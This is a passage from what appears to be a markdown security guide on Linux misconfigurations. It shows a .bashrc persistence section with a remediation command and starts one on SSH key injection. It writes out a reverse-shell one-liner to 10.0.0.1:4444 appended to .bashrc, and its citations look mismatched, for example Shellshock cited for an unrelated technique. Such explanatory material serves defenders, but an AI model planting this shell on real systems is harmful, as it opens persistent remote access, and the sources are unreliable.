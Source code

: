       **Exploitation Vector**: Attackers can modify configuration files like `.bashrc` to execute arbitrary commands during login.                                                                                                     
      **Tool, Prompt, & Resource**:                                                                                                                                                                                                    
      - **Tool**: `find` (to locate misconfigured files)                                                                                                                                                                               
      - **Prompt**: "Allow user-specific shell configurations"                                                                                                                                                                         
      - **Resource**: `/home/[user]/.bashrc`                                                                                                                                                                                           
                                                                                                                                                                                                                                       
      ### Exploitation Example                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          
      echo "sh -i >& /dev/tcp/10.0.0.1/4444 0>&1" >> /home/ubuntu/.bashrc                                                                                                                                                              
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Remediation Command                                                                                                                                                                                                          
      ```bash                                                                                                                                                                                                                          
      chmod 644 /home/ubuntu/.bashrc && chown root:root /home/ubuntu/.bashrc                                                                                                                                                           
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Source Citations                                                                                                                                                                                                             
      - **Vulnerability**: [Unix File Permissions Best Practices (Hacker News)](https://news.ycombinator.com/)                                                                                                                         
      - **Remediation**: [Linux Security: File System Hardening (Arxiv)](https://arxiv.org/)                                                                                                                                           
      - **Exploitation Example**: [ShellShock Vulnerability Replication](https://www.cve.org/CVERecord?id=CVE-2014-6271)                                                                                                               
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## 2. **Unauthorized SSH Key Injection**                                                                                                                                                                                         
      **Exploitation Vector**: Attacker can exploit misconfigured permissions on `.ssh/authorized_keys` to gain persistent access.                                                                                                     